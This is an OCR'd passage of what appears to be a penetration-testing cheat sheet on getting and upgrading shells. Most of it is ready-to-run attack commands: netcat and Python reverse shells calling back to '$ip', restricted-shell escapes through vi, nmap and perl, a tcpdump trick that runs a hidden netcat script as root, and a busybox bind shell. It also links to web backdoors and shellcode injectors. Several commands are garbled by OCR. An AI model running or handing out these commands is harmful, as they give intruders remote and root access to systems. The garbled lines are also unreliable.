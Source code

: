 - Netcat Shell Listener\
nc -nlvp 4444

- Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user.\
(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

(hint: sudo -l to see what you can run)

- You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:\
ssh user@$ip nc $localip 4444 -e /bin/sh\
enter user's password\
python -c 'import pty; pty.spawn("/bin/sh")'\
export TERM=linux\
python -c 'import pty; pty.spawn("/bin/sh")'

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\\_INET,socket.SOCK\\_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\\\["/bin/sh","-i"\\\]);'\
echo os.system('/bin/bash')\
/bin/sh -i\
perl —e 'exec "/bin/sh";'\
perl: exec "/bin/sh";\
ruby: exec "/bin/sh"\
lua: os.execute('/bin/sh')\
From within IRB: exec "/bin/sh"\
From within vi: :!bash or\
\:set shell=/bin/bash:shell\
From within vim ':!bash':\
From within nmap: !sh\
From within tcpdump

- echo $’id\\\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root\
From busybox /bin/busybox telnetd -|/bin/sh -p9999

- Pen test monkey PHP reverse shell[http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shel) 

- php-findsock-shell - turns PHP port 80 into an interactive shell[http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell) 

- Perl Reverse Shell[http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) 

- PHP powered web browser Shell b374k with file upload etc.[https://github.com/b374k/b374k](https://github.com/b374k/b374k) 

- Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1) 

- Web Backdoors from Fuzzdb [https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors) 

